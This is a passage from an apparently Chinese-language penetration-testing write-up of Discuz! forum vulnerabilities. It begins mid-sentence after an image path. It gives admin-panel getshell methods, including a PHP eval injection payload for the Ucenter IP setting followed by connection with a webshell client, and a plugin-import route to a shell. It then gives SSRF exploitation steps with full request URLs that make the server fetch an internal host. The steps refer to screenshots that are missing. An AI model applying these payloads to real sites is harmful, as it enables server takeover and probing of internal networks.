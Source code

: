 可获取到webshell
http://www.80vul.com/bbs/forumdata/logs/runwizardlog.php
参考链接：http://blog.51cto.com/simeon/113131
#### 演示9：Discuz!X2.5最新版后台管理员权限Getshell
在后台-->站长-->Ucenter设置处设置UcenterIP为: XX\\');eval($_POST[a])?>;// XX

发现管理页面代码出来了

上菜刀：http://127.0.0.1/d25/uc_server

参考链接：https://www.seebug.org/vuldb/ssvid-93655
#### 演示10：Discuz后台getshell
后台找到应用，插件

有一个好贷站长联盟

安装之后有一个导入接口信息

然后导入接口信息

接口信息会放到这里

然后就shell了

参考链接：https://www.seebug.org/vuldb/ssvid-93624

## SSRF漏洞
### 漏洞描述：SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。可利用来探测内网信息或获取别的网站的信息或钓鱼等。涉及URL如下：
http://ip/bbs/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://xxxxxxxxxxxxxx.jpg[/img]&formhash=09cec465
http://ip/discuz_x3.2_sc_gbk/upload/portal.php
### 漏洞场景：Discuz
### 漏洞地址：
### 漏洞级别：高危
### 测试步骤与截图：
#### 演示1：SSRF漏洞
利用前提 ptid==aid且两者必须存在(ptid==帖子id,aid==门户文章id),pid=任意评论id。 即论坛门户发表过文章，准备和确认http://a.cn/discuz_x3.2_sc_gbk/upload/portal.php?mod=view&aid=1 确认门户中存在发表过的文章,记录下可用的aid

第一步 登陆后,请求获取modauthkey算出的一个key,用于操作对应文章: http://a.cn/discuz_x3.2_sc_gbk/upload/forum.php?mod=redirect&goto=findpost&modthreadkey=1&ptid=1&pid=1

从跳转的链接取出modthreadkey的参数值: http://a.cn/discuz_x3.2_sc_gbk/upload/forum.php?mod=viewthread&tid=1&page=1&modthreadkey=fce8163c9f310147f91a244a9eb9dc33#pid1 
第二步 带上当前formhash,modarticlekey拼上第一步的modthreadkey的值,即可发请求: POST:http://a.cn/discuz_x3.2_sc_gbk/upload/portal.php?mod=portalcp&ac=upload&aid=1&catid=1&op=downremotefile&formhash=760dc9d6&modarticlekey=fce8163c9f310147f91a244a9eb9dc33&content=<img src=http://internal.zabbix/images/general/zabbix.png> aa=a

internal.zabbix域名下的图片被下载并上传到Discuz指定的图片路径下: http://a.cn/discuz_x3.2_sc_gbk/upload/data/attachment/portal/201605/17/112626qszsaqolbm9l93qm.png
http://a.cn/discuz_x3.2_sc_gbk/upload/data/attachment/portal/201605/17/112626qszsaqolbm9l93qm.png.thumb.jpg
